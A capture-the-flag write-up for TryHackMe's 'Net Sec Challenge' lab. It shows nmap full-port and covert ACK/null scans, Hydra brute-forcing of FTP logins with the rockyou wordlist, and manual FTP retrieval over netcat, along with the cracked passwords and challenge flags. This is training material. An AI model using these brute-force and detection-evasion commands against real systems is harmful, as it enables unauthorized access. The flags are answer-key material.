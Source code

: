 # Net Sec Challenge

* **author**:: Nathan Acks  
* **date**:: 2022-04-03

This CTF is just a series of questions. All should be solvable using nmap, telnet, and Hydra… Though I'm going to substitute netcat for telnet. However, I'm sticking to the spirit of things, and will only use those three tools.

The target machine is 10.10.152.115.

We'll start off with a full nmap scan:

```bash
sudo nmap -v -oN net-sec-challenge -Pn -A --reason -T4 \
          -p- 10.10.152.115
```

Results:

```
# Nmap 7.92 scan initiated Sun Apr  3 20:48:04 2022 as: nmap -v -oN net-sec-challenge -Pn -A --reason -T4 -p- 10.10.152.115
Increasing send delay for 10.10.152.115 from 0 to 5 due to 909 out of 2271 dropped probes since last increase.
Increasing send delay for 10.10.152.115 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
Nmap scan report for 10.10.152.115
Host is up, received user-set (0.19s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 (protocol 2.0)
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 61 lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Hello, world!
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.92%I=7%D=4/3%Time=624A60E5%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1 THM{946219583339}
");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/3%OT=22%CT=1%CU=32245%PV=Y%DS=4%DC=T%G=Y%TM=624A6111
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 12.801 days (since Tue Mar 22 01:54:39 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2022-04-04T03:07:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   47.27 ms  10.13.0.1
2   ... 3
4   222.58 ms 10.10.152.115

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  3 21:08:01 2022 -- 1 IP address (1 host up) scanned in 1197.32 seconds
```

This enables us to answer a set of questions immediately.

> What is the highest port number being open less than 10,000? - 8080
>
> There is an open port outside the common 1000 ports; it is above 10,000. What is it? - 10021
>
> How many TCP ports are open? - 6
>
> What is the flag hidden in the HTTP server header? - THM{web_server_25352}
>
> What is the flag hidden in the SSH server header? - THM{946219583339}
>
> We have an FTP server listening on a nonstandard port. What is the version of the FTP server? - vsftpd 3.0.3

That's all pretty easy. The next one is a bit harder with our limited toolset…

We start off by attempting to brute force the password for `eddie` or `quinn` using Hydra. To do this, we're going to run two Hydra tasks in parallel.

```bash
# Hydra task to break eddie's password.
#
hydra -v -f -t 10 -s 10021 -l eddie \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp

# Hydra task to break quinn's password.
#
hydra -v -f -t 10 -s 10021 -l quinn \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp
```

These quickly return the results `eddie:jordan` and `quinn:andrea`. Let's try to use `nc -nv 10.10.152.115 10021` to log into `eddie`'s account.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (10,10,152,115,119,101).
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.
```

The trick here is that the passive mode response returns (o1,o2,o3,o4,p1,p2), where o1 - o4 are the four octets of the server's IP address (10.10.152.115), and p1 - p2 are the high + low bytes of the port number to connect to, (256 × p1) + p2. Thus, after entering passive mode we can catch the reply using a second netcat instance, `nc -nv 10.10.152.115 30565`. We start this *before* entering the LIST command, revealing that `eddie` has access to no files.

Let's have the same conversation for `quinn`.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER quinn
331 Please specify the password.
PASS andrea
230 Login successful.
PASV
227 Entering Passive Mode (10,10,152,115,120,34).
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,10,152,115,117,85).
RETR ftp_flag.txt
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

This time we need to open *two* auxiliary netcat sessions. The first, `nc -nv 10.10.152.115 30754`, catches the LIST command, which reveals that `quinn` has access to an `ftp_flag.txt` file. The second, `nc -nv 10.10.152.115 30037`, catches the contents of that file after issuing the RETR command. This is the answer to our penultimate challenge.

> We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP? - THM{321452667098}

For the final challenge, we go to `http://10.10.152.115:8080`. The challenge is to scan 10.10.152.115 "as covertly as possible". I'm not really willing to wait 7 months for a scan, but I'll bet that all we need to do is use `-T1` and drop `-A`.

```bash
sudo nmap -v -Pn -n -T1 -p- 10.10.152.115
```

Well, that didn't work - "71% chance of scan being detected" and we're nowhere near done. That, and the machine expired without me even noticing.

New target IP is 10.10.34.244.

Maybe speed doesn't matter here? Let's try a scan that shouldn't even look like a connection - an ACK scan - but at a more "normal" rate.

```bash
sudo nmap -v -Pn -n -T4 -sA -p- 10.10.34.244
```

Well, that resulted in an almost immediate flag. Switching to `-T2` for the timing here also incremented things quite quickly.

What about a null scan? That might actually get me more information than an ACK scan, but should elicit *any* response from open ports.

```bash
sudo nmap -v -Pn -n -T4 -sN -p- 10.10.34.244
```

"Null scan" is apparently the right answer, as the challenge provided the flag almost immediately (which doesn't *actually* make any sense, but whatever…).

> Browsing to http://10.10.152.115:8080 displays a small challenge that will give you a flag once you solve it. What is the flag? - THM{f7443f99}

* [Using "nmap"](nmap.md)
* [Using Hydra](hydra.md)
* [Using "netcat"](netcat.md)
* [File Transfer Protocol (FTP)](ftp.md)
* [How to list FTP directories using telnet?](https://stackoverflow.com/questions/50324402/how-to-list-ftp-directories-using-telnet#comment126707507_50324402)
* [FTP Commands: QUIT, USER, ABOR, ACCT, SYST, XDEL](https://www.serv-u.com/resource/tutorial/quit-user-abor-acct-syst-xdel-ftp-command)
* [FTP Commands: APPE, MLSD, MLST, LIST, RETR, STOR, STOU](https://www.serv-u.com/resource/tutorial/appe-stor-stou-retr-list-mlsd-mlst-ftp-command)

ELAPSED TIME: 2 h 31 min

## References

* [TryHackMe: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)
